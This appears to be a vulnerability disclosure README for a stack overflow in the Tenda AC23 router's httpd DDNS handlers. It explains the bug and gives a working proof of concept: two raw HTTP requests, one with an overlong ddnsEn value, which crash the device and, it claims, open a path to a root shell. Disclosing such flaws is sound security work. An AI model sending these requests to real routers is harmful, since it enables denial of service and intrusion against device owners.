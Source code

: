# Tenda AC23 formGetSysToolDDNS stack-based overflow

## 1.Product 

![image-20220924150554791](https://github.com/jingping911/tendaAC23overflow/blob/main/1.jpg)

1. **product information: https://www.tenda.com.cn/** 
2. **firmware download:https://www.tenda.com.cn/download/detail-3420.html**

----

## 2.**Firmware**

**Hardware version:V1.0**

**Software version:V16.03.07.45**

## 3.vulnerability details

The vulnerability is in` /bin/httpd` , the function `formSetSysToolDDNS`, ` formGetSysToolDDNS` . The function `formSetSysToolDDNS` can set nvram val `adv.ddns1.en` to` v22` , **which can be set through POST parameter`ddnsEn`**

![image-20220924150554791](https://github.com/jingping911/tendaAC23overflow/blob/main/1.png)

and in function `formGetSysToolDDNS` , the function calls `GetValue(“adv.ddns1.en”, v11)` to set the string to` v11` which is on the stack. So there is a stack overflow vulnerability. By analyze the funtion GetValue and SetValue , the max size of the string we can get from the function GetValue is `0x5DC` . It’s bigger than the size of`v11 `

![image-20220924150554791](https://github.com/jingping911/tendaAC23overflow/blob/main/2.png)

so there is a buffer overflow vulnerability. 

## 4.poc
1. You need to login and **replace the Cookie: password filed in poc**.
2. By sending  poc1 and poc2 (remember to send poc2), it can cause dos and rce. 

```
POST /goform/SetDDNSCfg HTTP/1.1
Host: 192.168.0.1
Content-Length: 641
Accept: */*
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36
(KHTML, like Gecko) Chrome/105.0.0.0 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://192.168.0.1
Referer: http://192.168.0.1/ddns_config.html?random=0.48392112228286877&
Accept-Encoding: gzip, deflate
Accept-Language: en,zh-CN;q=0.9,zh;q=0.8
Cookie: password=25d55ad283aa400af464c76d713c07adoikcvb
Connection: close
ddnsEn=111111111111111111111111111111111111111111111111111111111111111111111
1111111111111111111111111111111111111111111111111111111111111111111111111111
1111111111111111111111111111111111111111111111111111111111111111111111111111
1111111111111111111111111111111111111111111111111111111111111111111111111111
1111111111111111111111111111111111111111111111111111111111111111111111111111
1111111111111111111111111111111111111111111111111111111111111111111111111111
1111111111111111111111111111111111111111111111111111111111111111111111111111
11111111111111111111111111111111111111111111111111&serverName=noip.com&ddnsUser=a&ddnsPwd=a&ddnsDomain=b.top
```

```
GET /goform/GetDDNSCfg?0.45256296854497835 HTTP/1.1
Host: 192.168.0.1
Accept: application/json, text/javascript, */*; q=0.01
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36
(KHTML, like Gecko) Chrome/105.0.0.0 Safari/537.36
X-Requested-With: XMLHttpRequest
Referer: http://192.168.0.1/ddns_config.html?random=0.48392112228286877&
Accept-Encoding: gzip, deflate
Accept-Language: en,zh-CN;q=0.9,zh;q=0.8
Cookie: password=25d55ad283aa400af464c76d713c07adoikcvb
Connection: close
```

**By sending this poc, can achieve the effect of a denial-of-service(DOS) attack**
**Also can write exp to get a stable root shell.**





### 5.Author

*Wangjingping*
